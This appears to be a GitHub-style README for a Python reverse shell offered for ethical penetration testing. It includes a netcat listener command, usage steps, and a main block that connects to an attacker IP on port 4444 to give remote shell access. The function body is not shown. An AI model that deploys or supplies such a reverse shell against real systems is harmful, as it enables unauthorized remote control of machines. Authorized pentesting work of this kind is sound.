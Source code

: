 cyberdudebivash's reverse shell

Description

This is a simple Python-based reverse shell tool designed for ethical penetration testing (pentesting) purposes. It establishes a connection from the target machine back to an attacker's listener, allowing remote command execution. The tool uses standard Python libraries and is intended for use in controlled environments with explicit permission.

Disclaimer: This tool is for educational and authorized testing only. Unauthorized use may violate laws and ethical guidelines. Always obtain permission before running on any system. The author assumes no liability for misuse.

Features

&nbsp;	• Establishes a reverse TCP connection to a specified host and port.

&nbsp;	• Redirects stdin, stdout, and stderr to the socket for interactive shell access.

&nbsp;	• Uses /bin/sh for Unix-like systems (can be modified for Windows with cmd.exe).

&nbsp;	• Lightweight and uses only built-in Python modules—no external dependencies.

Installation

&nbsp;	1. Clone or download the script.

&nbsp;	2. No installation required, as it uses standard Python libraries.

&nbsp;	3. Ensure Python 3.x is installed on the target machine.

Usage

On the Attacker's Machine (Listener):

Run a listener using netcat (nc) or similar:



nc -lvnp <port>

Replace <port> with your chosen port (e.g., 4444).

On the Target Machine:

&nbsp;	1. Edit the script to set HOST to your attacker's IP and PORT to the listener port.

&nbsp;	2. Run the script:



python reverse\_shell.py

The target will connect back, providing a shell prompt on the listener.



if \_\_name\_\_ == "\_\_main\_\_":

&nbsp;   HOST = "192.168.1.100"  # Attacker's IP

&nbsp;   PORT = 4444             # Listener port

&nbsp;   reverse\_shell(HOST, PORT)

Limitations

&nbsp;	• Works primarily on Unix-like systems; for Windows, modify the subprocess call to \["cmd.exe"].

&nbsp;	• No encryption or obfuscation—use in testing only.

&nbsp;	• Firewall or antivirus may block connections; test in isolated environments.

&nbsp;	• Not persistent; connection closes if script stops.

Contributing

Feel free to fork and submit pull requests for improvements, such as adding encryption or cross-platform support.

License

MIT License - Free to use and modify for ethical purposes.



Author



BIVASH NAYAK



Copyright

copyright@cyberdudebivash  2025

